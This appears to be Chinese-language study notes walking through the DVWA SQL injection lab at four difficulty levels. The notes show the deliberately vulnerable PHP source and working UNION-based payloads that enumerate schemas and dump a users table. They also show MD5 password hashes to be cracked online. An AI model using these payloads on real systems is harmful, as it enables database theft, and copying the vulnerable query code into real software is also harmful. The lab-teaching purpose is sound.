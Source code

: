 <center>SQL InjectionSQL注入</center>







[toc]









## SQL InjectionSQL注入

> SQL注入







### 1. low

> 低级
>
> 代码

```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

```

> 没有做任何过滤,查询两列，所以sql语句也只能查两个。 `'`单引号，字符型注入。



SQL注入思路

> 任务是：`脱库`，获取所有数据。

1. 确认是否有注入

```shell
1' or '1'='1
```

2. 获取当前数据库

```sql
库名
1' union select 1,database()#  

表名
1' union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database() #

表字段名
1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name='users' #
```

3. 脱库

```shell
1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #
1' or 1=1 union select * from users #
```

> 获取到数据, 密码对应的用户名等信息。

```shell
1adminadmin,2GordonBrown,3HackMe,4PabloPicasso,5BobSmith
Surname: admin202cb962ac59075b964b07152d234b70,gordonbe99a18c428cb38d5f260853678922e03,13378d3533d75ae2c3966d7e0d4fcc69216b,pablo0d107d09f5bbe40cade3de5c71e9e9b7,smithy5f4dcc3b5aa765d61d8327deb882cf99
```

> [md5](https://cmd5.com/) 解密获取明文密码。牛皮。







### 2. medium

> 中级
>
> 代码

```php

<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

```

> `mysqli_real_escape_string`转义特殊字符 $id 没有引号，数字型注入。

> burp抓包，该包，用sql注入思路获取数据。

```shell
1. 确认是否有注入
id=1 or 1=1 

2. 获取数据
id=1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #&Submit=Submit
```





### 3. high

> 高级
>
> 代码

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

```

> 多了`LIMIT 1`只查询一行数据。

```shell
# #  注释后面的就行
1' or 1=1 #

id=1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #
```





### 4. impossible

> 不可能的

```php

<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

```

